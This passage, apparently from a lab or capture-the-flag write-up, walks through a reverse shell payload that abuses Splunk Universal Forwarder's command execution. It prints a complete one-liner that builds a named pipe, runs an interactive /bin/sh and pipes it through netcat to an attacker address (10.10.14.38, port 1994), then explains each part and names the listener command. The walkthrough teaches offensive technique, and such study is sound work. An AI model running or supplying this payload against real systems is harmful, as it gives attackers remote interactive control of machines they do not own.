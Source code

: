 ```bash
echo "whoami" | /bin/sh
```

* Runs `whoami`, prints the output, **then exits**.
* No way to keep interacting with the shell.

To **fix this**, we create a **named pipe (FIFO)** that stays open, allowing continuous interaction—just like a **remote terminal**.

***

#### **Breaking Down the Payload**

```bash
rm /tmp/0xjcbk_pipe; mkfifo /tmp/0xjcbk_pipe; cat /tmp/0xjcbk_pipe | /bin/sh -i 2>&1 | nc 10.10.14.38 1994 > /tmp/0xjcbk_pipe
```

This is a **reverse shell** payload that exploits Splunk Universal Forwarder’s ability to execute commands, allowing us to gain interactive access to the target machine.

**1. Remove any existing named pipe (FIFO) to avoid conflicts**

```bash
rm /tmp/0xjcbk_pipe
```

* **Why?** `mkfifo` fails if a file with the same name already exists.
* This ensures a clean setup before we create a new pipe.

**2. Create a new named pipe (`mkfifo`)**

```bash
mkfifo /tmp/0xjcbk_pipe
```

* A **named pipe (FIFO)** is like a file that acts as a **queue**—one process writes, another reads.
* This lets us send commands **without needing an actual terminal session**.

**3. Set up a loop to read from the pipe and execute commands**

```bash
cat /tmp/0xjcbk_pipe | /bin/sh -i
```

* **`cat /tmp/0xjcbk_pipe`** → Reads **whatever is written** into the pipe.
* **`| /bin/sh -i`** → Feeds that input to an **interactive shell** (`sh -i`).
* **Why does this matter?**
  * Normally, the shell expects input from a keyboard.
  * Here, we trick it into **reading from the named pipe instead**.

**4. Send shell output back to our attack machine using netcat**

```bash
| nc 10.10.14.38 1994
```

* **Sends the shell’s output** to our machine (`10.10.14.38`) on port `1994`.
* We can now **see the results of our commands** on our listener (`nc -lvp 1994`).
